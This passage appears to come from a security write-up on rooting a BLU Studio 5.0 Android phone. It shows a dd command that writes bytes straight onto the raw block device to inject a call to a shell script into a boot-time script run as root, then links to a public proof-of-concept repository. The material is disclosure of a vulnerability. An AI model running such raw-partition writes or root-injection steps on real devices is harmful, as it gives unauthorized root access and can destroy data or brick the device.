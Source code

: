 ```
#!/bin/bash
dd if=/data/local/tmp/yay/inject of=/dev/block/mmcblk0 seek=252239890 bs=1 conv=notrunc
```

Which will inject “/data/local/tmp/shell.sh #” into the script `partition_permission.sh`, which is run by root on restart;

```
root@BLU STUDIO 5.0 C:/ # ls -l /system/etc/partition_permission.sh
-rwxr-x--- root root 676 2014-07-28 03:12 partition_permission.sh
```

Proof of Concept
================

The POC and actual code I used for achieving root can be found at the repo [adups-get-super-serial](https://github.com/rednaga/adups-get-super-serial) (publical as of Sept. 9th, 2015)
